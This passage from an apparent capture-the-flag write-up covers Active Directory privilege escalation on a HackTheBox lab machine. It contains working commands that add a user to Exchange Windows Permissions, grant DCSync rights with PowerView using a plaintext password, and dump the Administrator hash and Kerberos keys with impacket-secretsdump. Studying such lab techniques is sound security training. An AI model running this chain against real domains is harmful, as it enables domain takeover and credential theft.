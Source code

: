 > Honestly, I couldn't get the same output as the figure above.. `svc-alfresco` and `exchange windows permissions` group were not connected on my machine repeatedly. Maybe there are some changes in the machine..?

First, I need to exploit `Generic All` permission between `Account Operators` group and `Exchange Windows Permissions` group.

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-ADGroupMember -Identity "EXCHANGE WINDOWS PERMISSIONS" -Members "svc-alfresco"
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group 'exchange windows permissions'
Group name     Exchange Windows Permissions
Comment        This group contains Exchange servers that run Exchange cmdlets on behalf of users via the management service. Its members have permission to read and modify all Windows accounts and groups. This group should not be deleted.

Members

-------------------------------------------------------------------------------
svc-alfresco
The command completed successfully.
```

Using `Add-ADGroupMember`, I could successfully add `svc-alfresco` in `Exchange Windows Permissions` group.

# Privesc to `Administrator`

Then, I need to exploit `WriteDacl` permission from `Exchange Windows Permissions` group towards `HTB.LOCAL`.
Once I obtained this, I can automatically get `Domain Admins`.

I can concatenate all the commands as follows;
(Have to import `PowerView.ps1` ahead) 

```powershell
$username = "htb\svc-alfresco"
$password = "s3rvice"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
```

Then, let's try dumping `administrator`'s hash

```bash
┌──(kali㉿kali)-[~/htb]
└─$ impacket-secretsdump svc-alfresco:s3rvice@10.10.10.161 -just-dc-user administrator
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
[*] Kerberos keys grabbed
htb.local\Administrator:aes256-cts-hmac-sha1-96:910e4c922b7516d4a27f05b5ae6a147578564284fff8461a02298ac9263bc913
htb.local\Administrator:aes128-cts-hmac-sha1-96:b5880b186249a067a5f6b814a23ed375
htb.local\Administrator:des-cbc-md5:c1e049c71f57343b
[*] Cleaning up...
```
